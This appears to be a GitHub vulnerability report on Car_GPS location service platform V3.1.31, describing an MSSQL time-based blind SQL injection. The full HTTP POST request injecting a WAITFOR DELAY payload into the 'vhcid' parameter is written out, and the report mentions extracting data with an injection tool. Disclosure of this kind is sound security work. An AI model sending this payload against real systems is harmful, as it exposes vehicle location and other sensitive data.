 Car_GPS There is an SQL injection vulnerability in the location information service platform.

Recurrence of vulnerabilities

The location information service platform V3.1.31 has an SQL injection vulnerability, with an injection type of MSSQL blind injection. Attackers can use this vulnerability to obtain sensitive data and cause important data leakage.

Affected version: V3.1.31 case reproduction as shown in the figure, this is a testing site.

![image](https://github.com/hou456/Car_GPS/assets/66346276/ef97bf66-2670-4d99-ba04-a11fa3b7eb17)

Burp suite sends the following data packet and injects the parameter vhcid, with a test delay of 6 seconds

POST /mygpsonline/json/reportsAction_getVehicleData.action HTTP/1.1
Host: xxx:89
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Linux; Android 6.0; Nexus 5 Build/MRA58N) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Mobile Safari/537.36
Origin: http://www.xxxx.com:89
Content-Encoding: deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Type: application/json
Content-Length: 101

key=820abc957ae7128c8c9613df9a9dca57&vhcid=1;if (1=1)  WAITFOR DELAY '0:0:6'--&shareTime=1&playTime=1


![image](https://github.com/hou456/Car_GPS/assets/66346276/c7dcb69b-bced-4f79-9493-f0857d0e30da)



Burp suite sends an if (1=2) packet and injects the parameter vhcid, with a test delay of 6 seconds, resulting in a direct error return.
![image](https://github.com/hou456/Car_GPS/assets/66346276/85ca55ad-2775-4069-852a-8f43095eb2a9)

Burp suite sends an if (1=1) packet and injects the parameter vhcid, with a test delay of 10 seconds, and returns after 10 seconds.
![image](https://github.com/hou456/Car_GPS/assets/66346276/f8c2781d-6090-4207-b557-bfd6164316c3)

Burp suite sends an if (1=2) packet and injects the parameter vhcid, with a test delay of 10 seconds and no delay of 10 seconds.
![image](https://github.com/hou456/Car_GPS/assets/66346276/a698a510-95c3-4133-83dd-0351e9845c9e)

Obtaining data using super SQL injection tools
![image](https://github.com/hou456/Car_GPS/assets/66346276/2d397de1-fde8-4e2e-b2e1-93d7c243df20)

![image](https://github.com/hou456/Car_GPS/assets/66346276/d06f8b9c-f378-4083-8886-255ab0740b9a)


